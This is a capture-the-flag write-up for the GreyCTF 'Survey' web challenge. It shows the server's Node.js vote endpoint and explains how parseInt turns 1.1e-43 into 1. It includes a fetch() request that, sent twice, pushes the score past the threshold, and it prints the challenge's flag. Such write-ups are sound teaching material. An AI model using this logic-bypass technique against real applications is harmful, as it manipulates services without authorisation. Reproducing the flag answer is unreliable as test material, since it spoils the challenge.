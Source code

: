 # Greyctf Survey

### Challenge (100 points, 152 solves)

> Your honest feedback is appreciated :) (but if you give us a good rating we'll give you a flag)
>
> Author: jro
>
> http://challs.nusgreyhats.org:33334

### Analysis

Upon inspection of the source code, the flag is hidden at the following voting endpoint:

```js
let score = -0.42069;

// Other endpoints

app.post('/vote', async (req, res) => {
    const {vote} = req.body;
    if(typeof vote != 'number') {
        return res.status(400).json({
            "error": true,
            "msg":"Vote must be a number"
        });
    }
    if(vote < 1 && vote > -1) {
        score += parseInt(vote);
        if(score > 1) {
            score = -0.42069;
            return res.status(200).json({
                "error": false,
                "msg": config.flag,
            });
        }
        return res.status(200).json({
            "error": false,
            "data": score,
            "msg": "Vote submitted successfully"
        });
    } else {
        return res.status(400).json({
            "error": true,
            "msg":"Invalid vote"
        });
    }
})
```

Our goal is therefore to send a number `vote` that lies within `(-1, 1)`, such that `parseInt` of such number increases the value of `score`. As long as the `parseInt` value of `vote` is positive, we can send the requests multiple times so that `score` exceeds 1, then we can consequently get the flag.

However, `parseInt` only takes the integer part of a number, hence in theory, all numbers within `(-1, 1)` should have `parseInt` value of `0`. There seems to be no value of `vote` that can have `parseInt` value of `1`.

Upon closer inspection of `parseInt` documentation on [MDN](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/parseInt):

> Because large numbers use the e character in their string representation (e.g. `6.022e23` for 6.022 × 1023), using `parseInt` to truncate numbers will produce unexpected results when used on very large or very small numbers. `parseInt` should not be used as a substitute for `Math.trunc()`.

I therefore tried very small numbers and observe if they produce unexpected results. And indeed one does:

```
> parseInt(1.1e-43)
1
```

We therefore can send `1.1e-43` as `vote` to the endpoint. Crafting the request as a POST request in JSON format as follows produces the flag in the console:

```js
fetch('/vote', {
    method: 'POST',
    headers: {
        'Content-Type': 'application/json',
    },
    body: JSON.stringify({
        vote: 1.1e-43,
    }),
}).then(res => res.text()).then(res => console.log(res))
```

Sendin the above request two times, we obtain the following in the console:

```
{"error":false,"msg":"grey{50m371m35_4_l177l3_6035_4_l0n6_w4y}"}
```

### Flag

```
grey{50m371m35_4_l177l3_6035_4_l0n6_w4y}
```
